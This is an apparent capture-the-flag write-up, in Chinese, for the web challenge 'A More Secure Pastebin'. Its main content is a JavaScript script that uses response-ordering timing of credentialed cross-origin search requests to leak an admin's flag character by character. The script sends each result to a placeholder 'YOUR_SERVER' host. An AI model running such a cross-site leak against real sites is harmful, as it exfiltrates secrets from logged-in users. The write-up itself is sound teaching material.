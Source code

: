 ## [web] A More Secure Pastebin

看提示说 timeless，找到 [一篇论文](https://www.usenix.org/system/files/sec20-van_goethem.pdf)，说可以利用响应先后顺序 leak 信息。

然后就搞个脚本打：

```javascript
const SEARCH_URL = 'https://proxy:443/admin/searchword?word=';
//const SEARCH_URL = 'https://120.25.209.67:11001/user/searchword?word=';

async function search_req(term) {
    let href = SEARCH_URL+encodeURIComponent(term);
    await fetch(href, {
        mode: "no-cors",
        credentials: "include"
    });
    return term;
}

function sleep(ms) {
    return new Promise((r)=>setTimeout(r, ms));
}

async function report(msg) {
    console.log(msg);
    await fetch('https://YOUR_SERVER/?'+encodeURIComponent(msg), {
        mode: "no-cors",
    });
}

async function timing(term) {
    let cnt = 0;
    for(let i=0; i<20; i++) {
        let ps = [search_req(term), search_req('_404_404_404_pcmx')];
        let val = await Promise.any(ps);
        if(val===term) cnt++;
        await Promise.all(ps);
        await sleep(25);
    }
    return cnt;
}

const CHARSET = '0123456789abcdef}';
//const CHARSET = '012}';

async function run(pfx) {
    await report(`started_${pfx}`);
    let res = [];
    let mi = 1000;
    let michar = '}';
    for(let idx=0; idx<CHARSET.length; idx++) {
        let r = await timing('TF{'+pfx+CHARSET[idx]);
        res.push(r);
        if(r<mi) {
            mi = r;
            michar = CHARSET[idx];
        }
    }
    await report(`res_${res.join('_')}`);
    if(michar!=='}' && pfx.length<=8)
        await run(pfx+michar);
    else
        await report(`done_${pfx}`)
```